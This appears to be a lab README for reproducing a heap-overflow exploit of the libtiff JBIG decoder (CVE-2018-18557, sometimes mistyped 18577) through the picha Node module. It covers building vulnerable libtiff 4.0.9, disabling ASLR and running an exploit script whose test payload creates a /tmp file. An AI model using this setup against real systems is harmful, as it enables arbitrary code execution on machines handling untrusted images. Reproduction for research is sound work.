 The script `build-cve-2018-18577.sh` will setup (in the directory $CVE_2018_18577) a NAN Javascript exploit for [CVE-2018-18577](https://nvd.nist.gov/vuln/detail/CVE-2018-18557).

**WARNING!**

The instructions below show how to build a vulerable libtiff but there is a libtiff on the host. The libtiff on the host has the fix for the exploit so it won't work. If node picks up host libtiff you'll see something like this. 

Here I ran it without the LD_LIBRARY_PATH so it uses the host's libtiff
```
elahtinen@pac-thinkstation:~/open5g/CVE-2018-18557/picha$ PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH setarch `uname -m` -R node --expose-gc ./jbig.js 
/home/elahtinen/open5g/CVE-2018-18557/picha/index.js:151
		return new Image(picha.decodeTiffSync(buf, opt || {}));
		                       ^

Error: Decoded 3301 bytes, whereas 2222 were requested
    at Object.exports.decodeTiffSync (/home/elahtinen/open5g/CVE-2018-18557/picha/index.js:151:26)
    at Object.<anonymous> (/home/elahtinen/open5g/CVE-2018-18557/picha/jbig.js:124:23)
    at Module._compile (module.js:643:30)
    at Object.Module._extensions..js (module.js:654:10)
    at Module.load (module.js:556:32)
    at tryModuleLoad (module.js:499:12)
    at Function.Module._load (module.js:491:3)
    at Function.Module.runMain (module.js:684:10)
    at startup (bootstrap_node.js:187:16)
    at bootstrap_node.js:608:3
```

**END WARNING**

We'll be using this exploit
https://www.exploit-db.com/exploits/45694

Libtiff completely ignores the size of the destination buffer writing writing the decoded buffer for jbig decompression.

This NAN module reads tiff files: 

https://www.npmjs.com/package/picha
https://github.com/jhs67/picha

The builds for these libraries automatically configure themselves depending on what packages are available on the system. So you'll need to direct them the various packages. 

First set a root directory for all these packages:

```
mkdir CVE-2018-18557
cd CVE-2018-18557
export CVE_2018_18577=`pwd`
```

Start with the jbig package

```
git clone https://www.cl.cam.ac.uk/~mgk25/git/jbigkit
cd jbigkit
make V=1 -j 10
```

It's a very simple package that just builds itself into `libjbig`

```
elahtinen@pac-thinkstation:~/open5g/CVE-2018-18557/jbigkit/libjbig$ ls
jbig85.c  jbig85.o    jbig_ar.c  jbig_ar.o  jbig.h  jbig.txt     libjbig.a  po        tstcodec85    tstcodec85.o  tstcodec.o  tstjoint.c
jbig85.h  jbig85.txt  jbig_ar.h  jbig.c     jbig.o  libjbig85.a  Makefile   tstcodec  tstcodec85.c  tstcodec.c    tstjoint    tstjoint.o
elahtinen@pac-thinkstation:~/open5g/CVE-2018-18557/jbigkit/libjbig$ 
```

Now build a vulnerable libitff with jbig enabled


```
cd $CVE_2018_18577
git clone https://gitlab.com/libtiff/libtiff.git
cd libtiff
git checkout Release-v4-0-9

```

Now configure libtiff so that is it includes jbig

```
./autogen.sh
CFLAGS="-I$CVE_2018_18577/jbigkit/libjbig" CXXFLAGS=$CFLAGS LDFLAGS="-L$CVE_2018_18577/jbigkit/libjbig" ./configure  --prefix=$CVE_2018_18577/build
```

configure should automatically pick up the jbig build. At the end of the configuration output it should report `ISO JBIG support`: as an external codec with a `yes`
```
...
 Support for external codecs:
  ZLIB support:                       yes
  Pixar log-format algorithm:         yes
  JPEG support:                       yes
  Old JPEG support:                   yes
  JPEG 8/12 bit dual mode:            no
  ISO JBIG support:                   yes
  LZMA2 support:                      no

  C++ support:                        yes

  OpenGL support:                     no
```

Now build libtiff (all the include a libraries path are setup so you don't need them to set them in the environment)

```
make V=1 -j 10 install
```

I seem to have to install nan with each new module:

```
PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH /bpjs/bpjs/vanilla_node/node_install/bin/npm install nan --verbose
```

Build picha directing it to use the libtiff package we just built

```
cd $CVE_2018_18577
git clone https://github.com/jhs67/picha
PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH PKG_CONFIG_PATH=$CVE_2018_18577/build/lib/pkgconfig /bpjs/bpjs/vanilla_node/node_install/bin/npm build --verbose picha
```

I don't know why you needed to build this one from one directory up from the git repository, but you do

You'll need these two files from the repro:
```
cp .../exploits/CVE-2018-18577/jbig.js $CVE_2018_18577/picha/
cp .../exploits/CVE-2018-18577/jbig-crash.tif $CVE_2018_18577/picha/
```

Now you are ready to run! You need to point node at the libtiff you've just built. You also need to expose the garbage collector to make sure the exploit works consistently

```
cd $CVE_2018_18577/picha
PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH LD_LIBRARY_PATH=$CVE_2018_18577/build/lib setarch `uname -m` -R node --expose-gc ./jbig.js
The exploit will execute touch /tmp/require-security-bjpeg.txt so you should see the file `/tmp/require-security-bjpeg.txt`
Of course to verify the exploit worked: delete the file, run the exploit and check if the file exists:
rm -r /tmp/require-security-bjpeg.txt && PATH=/bpjs/bpjs/vanilla_node/node_install/bin:$PATH LD_LIBRARY_PATH=$CVE_2018_18577/build/lib setarch `uname -m` -R node --expose-gc ./jbig.js || ls -l /tmp/require-security-bjpeg.txt
```


I expect the exploit to work every time. With any heap exploit there is a small chance a single run might fail; but you really shouldn't see more than one failure in a row.

Also the exploit is only likely to work against `/bpjs/bpjs/vanilla_node/node_install/bin/node`.
